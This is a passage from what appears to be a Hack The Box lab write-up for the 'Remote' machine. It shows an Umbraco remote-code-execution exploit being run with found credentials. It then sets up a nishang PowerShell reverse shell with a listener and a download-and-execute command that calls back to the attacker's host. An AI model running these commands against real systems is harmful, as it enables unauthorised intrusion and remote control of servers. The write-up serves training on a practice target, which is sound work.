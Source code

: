 ```bash
$ searchsploit -m aspx/webapps/49488.py
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c whoami
iis apppool\defaultapppool
```

Okay, it looks like we can exploit a remote code execution vulnerability in Umbraco.

___

## Exploitation

We will be using **nishang**'s `Invoke-PowerShellTcp.ps1` script.

```bash
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1
```

Don't forget run a web server and a listener:

```bash
# On one terminal
$ python3 -m http.server 80
# On another
$ nc -lnvp 1234
```

```bash
$ python 49488.py -u admin@htb.local -p baconandcheese -i "http://$TARGET" -c "powershell.exe" -a "iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')" 2>/dev/null
```



![](/assets/img/htb/machines/windows/easy/remote/shell.png)
